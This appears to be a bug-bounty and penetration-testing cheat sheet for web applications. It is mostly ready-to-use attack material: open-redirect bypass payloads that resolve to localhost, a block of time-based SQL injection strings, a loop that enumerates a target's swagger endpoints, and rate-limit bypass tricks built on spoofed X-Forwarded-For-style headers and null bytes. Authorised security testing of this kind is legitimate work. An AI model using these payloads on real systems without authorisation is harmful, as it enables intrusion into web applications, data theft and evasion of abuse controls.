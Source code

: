 ### Github dorks
- https://github.com/techgaun/github-dorks

### Find domains that have "xyz" in whois
```bash
curl -H "User-Agent: Mozilla" "viewdns.info/reversewhois/?..." | grep -Po "<tr><td>[^<]+</td>" | cut -d '>' -f3 | cut -d '<' -f1
```
### Openredirect bypass Payloads
```js
/path?redirect=//2130706433
or 
/path?redirect=//0x7f000001
or 
@%E2%80%AE@moc.elgoog ==> https://test.com<payload_here>
```
it will redirect you to 127.0.0.1
**Tool to automate**
- [oralyzer](https://github.com/0xNanda/Oralyzer)

##### For bulk redirect check 
> **check this fuzzer**
- https://github.com/devanshbatham/OpenRedireX

### Time Based SQLi
```sql
')orsleep(5)='
1))orsleep(5)#
"))orsleep(5)="
'))orsleep(5)='
;waitfor delay'0:0:5'--
);waitfor delay'0:0:5'--
';waitfor delay'0:0:5'--
";waitfor delay'0:0:5'--
');waitfor delay'0:0:5'--
");waitfor delay'0:0:5'--
));waitfor delay'0:0:5'--
{"param":"1")))+MySQL_payload--+--}
```
### Pull endpoints from swagger
```bash
for i in 'curl -sK https://target/api/swagger.json | jq -r '.apis[].path'`;do echo $i;curl "https://target/$i" -iko /dev/null -sw "%{http_code}\n";done
```
### Pull URL from junk data using grep
```bash
cat file.txt | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
```
```bash
curl https://abc.com/file.js | grep -Eo "(http|https)://[a-zA-Z0-9/?=_=]*"*
```
### Rate Limit Bypass
##### IP Rotation --> Sending new ip's
- Null byte --> %00,%0d,%0a,%09
- abc:email:test111@abc.com%00
- X-Forwarded-For: 127.0.0.1
- Double X-Forwarded-For: 127.0.0.1
- X-Remote-Ip: 127.0.0.1
- X-Originating-IP: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Client-IP: 127.0.0.1
- X-Host: 127.0.0.1